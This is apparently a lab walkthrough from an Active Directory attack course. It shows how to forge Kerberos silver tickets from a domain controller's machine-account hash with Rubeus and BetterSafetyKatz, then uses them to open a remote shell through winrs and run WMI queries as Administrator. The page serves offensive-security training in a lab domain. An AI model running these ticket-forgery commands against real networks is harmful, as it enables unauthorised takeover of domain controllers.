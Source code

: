 # 🎫 Command execution on other DC via silver ticket on HTTP & WMI

From the information gathered in previous steps we have the hash for machine account of the domain controller (dcorp-dc$). Using the below command, we can create a Silver Ticket that provides us access to the HTTP service of DC

Please note that the hash of dcorp-dc$ (RC4 in the below command) may be different in the lab. You can also use aes256 keys in place of NTLM hash:

In our previous path we had to copy the hash of the machine account of Dcorp-DC. You can identify it as Dcorp-DC$

<figure><img src="../../.gitbook/assets/image (3) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption><p>9e81989d7ce17b7bbd3ac1e05dc94e57</p></figcaption></figure>

First we start by encoding "silver" then we throw in rubeus ->

```
C:\AD\Tools\Loader.exe -path C:\AD\Tools\Rubeus.exe -args %Pwn% /service:http/dcorp-dc.dollarcorp.moneycorp.local /rc4:9e81989d7ce17b7bbd3ac1e05dc94e57 /sid:S-1-5-21-719815819-3726368948-3917688648 /ldap /user:Administrator /domain:dollarcorp.moneycorp.local /ptt
```

<figure><img src="../../.gitbook/assets/image (1116).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (1117).png" alt=""><figcaption></figcaption></figure>

We can check if we go the correct service ticket but first we need to encode "klist":

We can check if we go the correct service ticket:

```
C:\AD\Tools\Loader.exe -path C:\AD\Tools\Rubeus.exe -args %Pwn%
```

<figure><img src="../../.gitbook/assets/image (1118).png" alt=""><figcaption></figcaption></figure>

And now we can enter the session:

```
winrs -r:dcorp-dc.dollarcorp.moneycorp.local cmd    
```

<figure><img src="../../.gitbook/assets/image (2) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

***

For accessing WMI, we need to create two tickets - one for HOST service and another for RPCSS. We could also use Rubeus for this but let's use BetterSafetyKatz. Note that we are not using any AV bypass technique here as this is just an example:

Let's start an elevated shell:

(don't forget to use hash of machine user)

```
C:\AD\Tools\BetterSafetyKatz.exe "kerberos::golden /User:Administrator /domain:dollarcorp.moneycorp.local /sid:S-1-5-21-719815819-3726368948-3917688648 /target:dcorp-dc.dollarcorp.moneycorp.local /service:HOST /rc4:9e81989d7ce17b7bbd3ac1e05dc94e57 /startoffset:0 /endin:600 /renewmax:10080 /ptt" "exit"
```

<figure><img src="../../.gitbook/assets/image (3) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Now we need to Inject a ticket for RPCSS:

```
C:\AD\Tools\BetterSafetyKatz.exe "kerberos::golden /User:Administrator /domain:dollarcorp.moneycorp.local /sid:S-1-5-21-719815819-3726368948-3917688648 /target:dcorp-dc.dollarcorp.moneycorp.local /service:RPCSS /rc4:9e81989d7ce17b7bbd3ac1e05dc94e57 /startoffset:0 /endin:600 /renewmax:10080 /ptt" "exit"
```

And if we check what tickets are present with `klist:`

<figure><img src="../../.gitbook/assets/image (4) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

And now we could tru to run WMI commands on the domain controller:

```
C:\AD\Tools\InviShell\RunWithRegistryNonAdmin.bat
Get-WmiObject -Class win32_operatingsystem -ComputerName dcorp-dc
```

<figure><img src="../../.gitbook/assets/image (5) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>
